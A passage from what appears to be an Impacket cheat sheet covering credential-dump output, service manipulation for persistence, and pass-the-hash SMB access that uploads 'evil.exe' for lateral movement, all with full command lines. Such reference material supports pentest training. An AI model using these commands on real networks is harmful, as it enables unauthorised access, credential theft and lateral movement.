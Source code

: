 **Example Output**:
```
Administrator:500:aad3b435b51404ee...:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

**Use Case**: Extracts credentials for offline cracking or pass-the-hash.[](https://tools.thehacker.recipes/impacket)

### 28. services.py
**Purpose**: Manages Windows services via MSRPC (start, stop, delete, etc.).

**Usage Example**:
```bash
impacket-services -dc-ip 192.168.1.100 example.local/user1:Password123@192.168.1.101 list
```
**Flag Explanations**:
- `-dc-ip 192.168.1.100`: Domain controller IP.
- `example.local/user1:Password123@192.168.1.101`: Target and credentials.
- `list`: Lists all services (options: `start`, `stop`, `delete`, `create`).

**Example Output**:
```
ServiceName: Spooler, Status: Running
```

**Use Case**: Manipulates services for persistence or escalation.[](https://www.hackingarticles.in/impacket-guide-smb-msrpc/)

### 29. smbclient.py
**Purpose**: Interacts with SMB shares (list, upload, download files).

**Usage Example**:
```bash
impacket-smbclient -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 example.local/user1@192.168.1.101
```
**Flag Explanations**:
- `-hashes :31d6cfe0d16ae931b73c59d7e0c089c0`: NTLM hash for authentication.
- `example.local/user1@192.168.1.101`: Target and credentials.

**Interactive Commands**:
```
smb> use C$
smb> put evil.exe
smb> dir
```

**Example Output**:
```
[*] Uploaded evil.exe to C:\
dir *.exe
evil.exe
```

**Use Case**: Transfers files for lateral tool deployment.[](https://micahbabinski.medium.com/brace-for-impacket-5191dff82c74)

### 30. smbexec.py
**Purpose**: Executes commands via SMB without RemComSvc, using a temporary service.
